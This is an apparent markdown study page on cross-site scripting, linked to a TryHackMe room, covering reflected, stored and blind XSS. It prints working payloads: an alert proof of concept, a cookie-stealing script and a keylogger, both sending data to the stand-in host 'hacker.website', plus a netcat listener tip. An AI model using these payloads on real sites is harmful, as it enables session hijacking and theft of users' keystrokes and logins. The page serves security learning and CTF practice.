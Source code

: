 # XSS and Javascript vulnerabilities

[![xssgi](../../../_badges/xssgi.svg)](https://tryhackme.com/room/xssgi)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called **XSS**, refer to injecting malicious JavaScript in a web application with the goal of it being executed by other users.

**The usual proof of concept**: show an alert if the script was executed.

```js
<script>alert('XSS');</script>
```

**Session hijacking**: anyone executing this script will send their cookie to a malicious website owned by the hacker used to capture cookies. The script is using `btoa()` to encode in base64 the values. Sessions cookies are gold 💰, because with them, we can simulate that we are logged, and bypass verifications such as 2FA.

```js
<script>fetch('https://hacker.website/steal?cookie=' + btoa(document.cookie));</script>
```
</div><div>

**A simple keylogger**: send each key pressed is sent to the hacker website. The script is using `btoa()` to encode in base64 the values.

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.website/keylogger?key=' + btoa(e.key) )}</script>
```

<br>

**Exploit the client privileges**: when a client is logged, then can do things on the website. Sometimes, the website is using an API, and the malicious code may use the client identify to do API calls, such as resetting the password, or stuff like that.

> In CTF, or to test that in local, you can create a server with ncat `nc -nlvp port`, and use `fetch('http://ip:port?x=...')`.
</div></div>

<hr class="sl">

## Reflected XSS

<div class="row row-cols-md-2"><div>

The malicious code is usually inside a URL, and the vulnerable website when loading the URL, will execute the malicious website.
</div><div>

For instance, "https://vulnerable.search.engine" is a search engine in which the query is stored in the URL in the parameter `q`. The website is vulnerable to XSS, so if we open the URL, then the javascript will run in our browser.

```
https://vulnerable.search.engine/?q=%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
```
</div></div>

<hr class="sr">

## Stored XSS

<div class="row row-cols-md-2"><div>

The malicious code is stored by the website, usually in a database. Then, in another page loading the data from the database, a vulnerable website will execute the malicious code.

> Comments, profiles, listings... may be vulnerable.
</div><div>

For instance, a user using the value `<script>alert('XSS');</script>` as username. Then, for instance on the vulnerable profile page, any user opening a link to the compromised profile, will execute the malicious code.
</div></div>

<hr class="sl">

## DOM Based XSS

...

<hr class="sr">

## Blind XSS

<div class="row row-cols-md-2"><div>

In blind XSS, you are usually sending a payload in a contact/support... forms, in order to maybe steal information from the admin-side website if any. We are calling it "blind XSS", because it's not possible to see if it's working.
</div><div>

See [xsshunter](https://github.com/mandatoryprogrammer/xsshunter) (1.2k ⭐)
</div></div>
